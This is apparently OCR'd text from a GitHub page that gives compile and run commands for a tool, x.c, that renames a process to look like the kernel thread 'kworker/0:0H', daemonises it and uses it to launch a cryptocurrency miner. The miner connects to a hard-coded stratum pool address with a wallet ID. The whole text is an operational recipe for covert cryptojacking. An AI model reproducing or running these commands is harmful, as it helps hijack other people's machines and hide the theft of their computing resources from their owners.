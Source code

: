 #compile

gcc -o x x.c

gcc x.c -o x -pthread

gcc x.c -o x -lpthread


#execute

./x -c -s "kworker/0:0H" -d -p test.pid node run.js


./x -c -s "kworker/0:0H" -d -p test.pid ./dx -o stratum+tcp://141.94.223.113:4052 -u 49cg2BTsCdmBfUPsCrDsGmREn2diVYSKUahupm2bay5ZU3gmVTzuwgY7yhQcbYCdEeZXSHsYLZKLWXTR4DNR3xcJS29HszU -k -p x
